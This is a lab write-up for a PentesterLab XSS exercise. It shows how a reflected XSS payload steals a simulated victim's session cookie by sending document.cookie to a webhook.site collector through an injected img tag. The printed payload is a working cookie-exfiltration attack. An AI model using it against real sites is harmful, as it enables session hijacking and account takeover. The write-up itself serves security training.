 ### Essential 60// XSS 10
[Challenge URL](https://pentesterlab.com/exercises/xss_10/course)

This challenge, the webserver is setup identically to how it was in the XSS 01 challenge, but here our goal is closer to a real life use of XSS vulnerabilities. Our goal is to have our JavaScript steal a copy of the 'victim's session cookie, which would enable us to takeover the 'victim's current user-session, and potentially fully compromise the account.

Once we have our payload crafted to steal the session-cookie, we'll use a `webhook.site` instance as our redirect URL inside of an `<img src` tag. Instead of the typical `<script>alert(1)</script>` payload, we'll use;
```javascript
<script>
document.write('<img src="https://webhook.site/5f973e80-c5f8-4ae6-bff4-e314e8cf3c83?c='+document.cookie+'" />');
</script>
```
Where the `img src` is our `webhook.site` instance URL, and `document.cookie` should render as the user's session-cookie value once the 'victim' visits our link. We'll also need to URL-encode this payload in order for the `+` chars to be interpreted properly. If we visit our own link, the page should return a broken image with our `script` embedded in the page.

If our payload is correct, when we submit the full URL on the course page, the 'victim' will visit our link, and two requests will be made to our `webhook.site` page, the first being the original request made by the 'victim', and the second will be from our malicious javascript, that will have the user's session-cookie//the key for this challenge as a query string in the response body.
